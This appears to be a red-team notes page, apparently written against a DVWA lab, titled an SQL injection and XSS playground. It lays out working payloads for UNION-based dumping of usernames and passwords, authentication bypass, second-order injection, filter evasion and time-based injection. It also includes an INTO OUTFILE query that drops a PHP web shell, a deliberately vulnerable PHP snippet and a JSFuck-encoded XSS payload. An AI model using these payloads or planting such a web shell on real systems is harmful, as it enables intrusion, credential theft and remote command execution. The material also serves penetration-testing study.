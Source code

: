 ```yaml
---
description: This is my playground for SQL injection and XSS
---
```


# SQL Injection & XSS Playground

## Classic SQL Injection

### Union Select Data Extraction

```sql
mysql> select * from users where user_id = 1 order by 7;              
ERROR 1054 (42S22): Unknown column '7' in 'order clause'
mysql> select * from users where user_id = 1 order by 6;
mysql> select * from users where user_id = 1 union select 1,2,3,4,5,6;
```

![](<https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/tree/master/.gitbook/assets/Screenshot%20from%202018-11-17%2015-59-39.png>)

```sql
select * from users where user_id = 1 union all select 1,(select group_concat(user,0x3a,password) from users),3,4,5,6;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/tree/master/.gitbook/assets/Screenshot%20from%202018-11-17%2016-03-00.png)

### Authentication Bypass

```sql
mysql> select * from users where user='admin' and password='blah' or 1 # 5f4dcc3b5aa765d61d8327deb882cf99' 
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/tree/master/.gitbook/assets/assets/Screenshot%20from%202018-11-17%2016-16-06.png)

### Second Order Injection

```sql
mysql> insert into accounts (username, password, mysignature) values ('admin','mynewpass',(select user())) # 'mynewsignature');
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/tree/master/.gitbook/assets/Screenshot%20from%202018-11-17%2016-57-24.png)

### Dropping a Backdoor

```sql
mysql> select * from users where user_id = 1 union select all 1,2,3,4,"<?php system($_REQUEST['c']);?>",6 into outfile "/var/www/dvwa/shell.php" #;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/tree/master/.gitbook/assets/Screenshot%20from%202018-11-17%2019-15-16.png)

### Conditional Select

```sql
mysql> select * from users where user = (select concat((select if(1>0,'adm','b')),"in"));
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/tree/master/.gitbook/assets/Screenshot%20from%202018-11-17%2021-39-53.png)

### Bypassing Whitespace Filtering

```sql
mysql> select * from users where user_id = 1/**/union/**/select/**/all/**/1,2,3,4,5,6;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/tree/master/.gitbook/assets/Screenshot%20from%202018-11-17%2022-43-46.png)

## Time Based SQL Injection

### Sleep Invokation

```sql
mysql> select * from users where user_id = 1 or (select sleep(1)+1);
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/tree/master/.gitbook/assets/Screenshot%20from%202018-11-17%2015-51-50.png)

```sql
select * from users where user_id = 1 union select 1,2,3,4,5,sleep(1);
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/tree/master/.gitbook/assets/Screenshot%20from%202018-11-17%2015-53-52.png)

```
```

## XSS

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/tree/master/.gitbook/assets/Peek%202018-11-17%2020-17.gif)

### Strtoupper Bypass

Say we have the following PHP code that takes `name` as a user supplied parameter:

```php
<?php
        $input=$_GET['name'];
        $sanitized=strtoupper(htmlspecialchars($input));   
        echo '<form action="">';
        echo "First name: <input type='text' name='name' value='".$sanitized."'><br>";
        echo "<input type='submit' value='Submit form'></form>";
        echo "</HTML></body>";
?>
```

Line 3 is vulnerable to XSS, and we can break out of the input with a single quote `'`:

```php
$sanitized=strtoupper(htmlspecialchars($input));   
```

For example, if we set the `name` parameter to the value of  `a'`, we get:

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/tree/master/.gitbook/assets/Screenshot%20from%202018-11-17%2021-54-22.png)

Note that the `a` got converted to a capital `A` and this is due to the `strtoupper` function being called on our input. What this means is that any ascii letters in our JavaScript payload will get converted to uppercase and become invalid and will not execute (i.e`alert() != ALERT()`).

To bypass this constraint, we can encode our payload using JsFuck, which eliminates all the letters from the payload and leaves us with this:

```php
A' onmouseover='[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()'
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/tree/master/.gitbook/assets/Screenshot%20from%202018-11-17%2021-55-33.png)

## References

{% embed url="http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet" %}

{% embed url="http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet" %}

{% embed url="http://breakthesecurity.cysecurity.org/2010/12/hacking-website-using-sql-injection-step-by-step-guide.html" %}

{% embed url="https://www.youtube.com/watch?v=Rqt_BgG5YyI" %}
